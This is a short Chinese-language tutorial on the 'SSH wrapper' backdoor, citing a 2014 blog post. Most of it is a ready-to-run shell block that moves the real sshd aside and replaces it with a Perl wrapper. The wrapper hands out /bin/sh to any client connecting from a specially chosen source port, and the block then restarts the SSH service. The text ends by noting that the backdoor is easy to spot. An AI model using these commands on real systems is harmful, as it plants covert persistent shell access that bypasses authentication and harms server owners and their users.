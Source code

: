 ## SSH-Wrapper后门

wrapper的中文翻译即"封装"，因此此类后门顾名思义就是对原命令的二次封装，先执行恶意操作，之后再重定向到真实的命令上。从这个角度来说，我们使用的很多命令篡改后门都是wrapper后门。

关于这种后门最早是在14年提出的也就是现在大家熟知的SSH_Wrapper，是一个很老的后门了，原文链接：https://www.jakoblell.com/blog/2014/05/07/hacking-contest-ssh-server-wrapper/



```shell
cd /usr/sbin/
mv sshd ../bin/


echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd


chmod u+x sshd
/etc/init.d/sshd restart
```

这种后门在实际场景下非常容易被识别，不具有隐蔽性。